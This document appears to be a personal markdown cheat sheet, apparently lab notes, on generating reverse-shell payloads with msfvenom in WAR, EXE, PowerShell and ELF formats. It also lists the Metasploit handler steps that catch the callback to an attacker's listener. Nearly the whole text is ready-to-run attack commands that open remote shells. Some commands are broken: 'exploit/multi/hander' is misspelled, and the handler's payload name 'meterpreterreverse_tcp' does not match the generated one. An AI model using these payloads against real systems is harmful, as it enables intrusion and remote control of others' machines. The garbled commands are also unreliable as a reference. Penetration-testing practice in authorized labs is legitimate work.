 # msfvenom

## Overview

msfvenom is a payload generator.
You can create reverse shells in many different formars


## Usage

### Getting a war payload

Create the payload

	msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.46 LPORT=9001 -f war -o payload.war

Now start metasploit

	msfconsole

Use the handler that is gonna handle the reverse connection from the payload

	use exploit/multi/hander

Set the payload that we created with msfvenom

	set payload windows/x64/meterpreterreverse_tcp

Set the interfacte that the handler is gonna listen on waiting for the reverse connection

	set LHOST tun0

Set the port specified in the payload in msfvenom

	set LPORT 9001

Run the handler

	exploit -j

Now execute the war payload (by accessing the jsp inside) and we should have a connection.
When we have a session do

	sessions -i 1

To interact with it

### List Payloads

```shell
msfvenom -l payloads
```


### Getting a cmd .exe payload

msfvenom -p windows/x64/shell_reverse_tcp LHOST=<mylocalhostip> LPORT=<myserverport> -f exe -o <name_of_the_exe>

### Getting a powershell .exe payload

msfvenom -p windows/x64/powershell_reverse_tcp LHOST=<mylocalhostip> LPORT=<myserverport> -f exe -o <name_of_the_exe>

### Create a elf payload

```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```